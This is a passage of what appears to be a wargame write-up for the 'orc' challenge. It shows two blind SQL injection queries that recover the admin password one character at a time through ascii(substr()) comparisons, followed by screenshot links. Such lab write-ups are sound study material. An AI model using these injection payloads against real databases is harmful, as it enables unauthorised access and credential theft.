 * 5

`select id from prob_orc where id='admin' and pw='' or id='admin' and ascii(substr(pw,5,1))=53#'`

<img src="./img/orc9.png" width="700">

* 8

`select id from prob_orc where id='admin' and pw='' or id='admin' and ascii(substr(pw,6,1))=56#'`

<img src="./img/orc10.png" width="700">
